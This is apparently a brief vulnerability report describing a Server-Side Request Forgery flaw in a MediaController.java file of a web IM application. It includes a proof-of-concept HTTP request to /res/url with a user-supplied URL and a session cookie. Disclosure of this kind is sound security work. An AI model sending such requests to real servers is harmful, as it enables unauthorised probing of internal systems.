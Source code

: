 In the file `com/ukefu/webim/web/handler/resource/MediaController.java`, there is code that allows the server to make requests to a URL provided by the user. This behavior can lead to a **Server-Side Request Forgery (SSRF)** vulnerability.

![image-20250320185115950](image-20250320185115950.png)

Poc:

```
GET /res/url?url=http://www.baidu.com HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: remember-me=YWRtaW46MTc0MzA2NTA3NDE2MjphZmU1NjA2MWRlNWVhM2YzNGI0Y2Y0N2ZjM2YyMzNlNQ
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i


```

![image-20250320185503858](image-20250320185503858.png)
